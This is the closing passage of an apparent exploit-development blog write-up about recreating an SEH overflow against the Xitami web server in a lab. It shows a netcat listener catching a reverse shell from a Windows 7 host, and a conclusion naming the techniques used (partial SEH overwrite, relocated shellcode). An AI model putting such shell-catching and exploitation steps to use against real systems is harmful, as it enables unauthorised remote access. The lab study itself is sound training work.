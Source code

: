 ```python
s.close()
```

Awesome!
```terminal_session
root@kali:~/OSCE/ # nc -lvp 443                                        
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.209] from (UNKNOWN) [192.168.1.201] 49172
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Downloads\xiopen_2_5\xitami-25\app>
```

## Conclusion

This was a really cool exploit to recreate. I definitely got stuck on the things I hadn't done before. The partial SEH overwrite, the placing final shellcode in another area of application memory, and creating some helper scripts were all really eye opening. Thanks for reading!

## Resources

+ [First SEH Overflow](https://h0mbre.github.io/SEH_Based_Exploit/#)
+ [Xitami Download](https://imatix-legacy.github.io/xitami.com/)
+ [Boo-Gen](https://github.com/h0mbre/CTP/tree/master/Boo-Gen)
+ [Offset.py](https://github.com/h0mbre/CTP/tree/master/Offset)
